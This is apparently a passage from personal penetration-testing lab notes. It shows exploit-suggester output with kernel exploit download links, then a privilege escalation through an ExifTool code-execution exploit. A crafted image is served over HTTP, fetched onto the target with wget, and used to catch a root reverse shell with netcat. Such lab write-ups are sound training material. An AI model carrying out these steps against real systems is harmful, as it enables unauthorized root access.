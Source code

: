 >    Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
>    ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
>    Comments: ip_tables kernel module must be loaded
> 
> [+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
>    Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
> https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
>    Exposure: less probable
>    Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
>    Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
>    Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
> 
> [+] [CVE-2017-5618] setuid screen v4.5.0 LPE
>    Details: https://seclists.org/oss-sec/2017/q1/184
>    Exposure: less probable
>    Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
> Users with Console
> 	coaran:x:1000:1000::/home/coaran:/bin/bash
> 
> Some home ssh config file was found
> 	/usr/share/openssh/sshd_config                                                                                   
> 	Include /etc/ssh/sshd_config.d/*.conf
> 	ChallengeResponseAuthentication no
> 	UsePAM yes
> 	X11Forwarding yes
> 	PrintMotd no
> 	AcceptEnv LANG LC_*
> 	Subsystem       sftp    /usr/lib/openssh/sftp-server
> 
> Cron Jobs
> ![[Cybersecurity-Resources/images/Pasted image 20241002202522.png]]
- Identified `bash /opt/image-exif.sh` (aka exiftool) running constantly
- Multiple exploits available for `exiftool`
## Privilege Escalation vector
### Exploit - ExifTool 12.23 - Arbitrary Code Execution
- EDB-ID: 50911 CVE-2021-22204
- First attempt running exploit failed (missing dependencies)
![[Cybersecurity-Resources/images/Pasted image 20241003194919.png]]
- Checked exploit script, found dependencies, 
- Installed: `sudo apt install djvulibre-bin` & `sudo apt install exiftool`
- Re-ran exploit 49876.py & created `image.jpg`
![[Cybersecurity-Resources/images/Pasted image 20241003195231.png]]
- Served `image.jpg` on http webserver: `python3 -m http.server 80`
- Launched netcat listener: `nc -nvlp 4567`
- Uploaded `image.jpg` to target machine from shell on port 4444: 
  `wget http://192.168.45.198/image.jpg`
![[Cybersecurity-Resources/images/Pasted image 20241003200145.png]]
- Waited for reverse shell to port 4567, and established user is `root`
![[Cybersecurity-Resources/images/Pasted image 20241003200430.png]]
- Navigated to root directory and printed `proof.txt`
![[Cybersecurity-Resources/images/Pasted image 20241003200649.png]]
- Checked `/etc/passwd` for other users, found `coaran:x:1000:1000::/home/coaran:/bin/bash`
![[Cybersecurity-Resources/images/Pasted image 20241003201209.png]]
- Navigated to `coaran` home & found `local.txt`